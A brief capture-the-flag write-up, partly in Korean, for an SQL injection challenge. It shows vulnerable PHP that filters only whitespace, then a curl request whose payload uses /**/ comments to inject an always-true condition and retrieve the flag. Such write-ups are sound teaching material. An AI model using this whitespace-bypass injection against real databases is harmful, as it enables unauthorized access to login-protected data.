 # Sql World 1
web.isangxcaution.xyz:20300/sql1.php

Made by smart_kang

```php
<?php
    include "./config.php";
    $db = $link;
    $pw = '';
    if(isset($_GET['pw'])){
        $pw = $_GET['pw'];
        if(preg_match('/[[:space:]]/i', $_GET['pw'])) exit("No whitespace ~_~"); 
    }
    $query = "select id from sql1 where id='admin' and pw='$pw'";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysqli_fetch_array(mysqli_query($db,$query));
    if($result['id']) echo $FLAG1;
    highlight_file(__FILE__);

?>
```

whitespace filtering 을 bypass 하기 위해 주석을 사용하면 된다. 
```sh
❯ curl http://web.isangxcaution.xyz:20300/sql1.php\?pw\=%27/\*\*/or/\*\*/%27%27\=%27
<hr>query : <strong>select id from sql1 where id='admin' and pw=''/**/or/**/''=''</strong><hr><br><br><h2>FLAG : IxC{Y0u_kn0w_h0w_t0_bypass_spac3!!}</h2><br><code><span style="color: #000000">
```
